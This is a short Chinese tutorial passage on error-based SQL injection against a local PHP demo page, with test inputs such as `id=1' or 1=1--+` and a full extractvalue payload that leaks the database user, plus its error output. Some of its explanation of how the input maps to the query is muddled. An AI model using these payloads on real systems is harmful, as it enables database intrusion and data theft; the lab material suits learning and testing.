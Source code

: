 ```txt
#1 {main}

  thrown in <b>C:\Users\fk\PhpstormProjects\demo\error.php</b> on line <b>17</b><br />

```

  

<br>

<br>

  

其实看第一段的`near ''1'' LIMIT 0,1'`就行，一个报错注入就可以出现雏形。

  

`id=1' or 1=1--+`就正常输出，回头去看源码

  
  

```php

//...

$id=$_GET['id'];

//...

```

  
  

`id=1'`相当于`$id=$_GET['1'']`。

`id=1' or 1=2 --+`相当于`'1' or 1=2--+'`即`$_GET['1' or 1=2]`

  

<br>

<br>

  

一点简单的测试之后，

  

<br>

<br>

  

在按部就班的测试之后就可以构造payload：

`http://demo/error.php?id=1%27%20and%20(select%20extractvalue(%22anything%22,concat(%27~%27,(user()))))%20--%20qwe`

  

就可以通过报错回显得到：`XPATH syntax error: '~root@localhost'`

  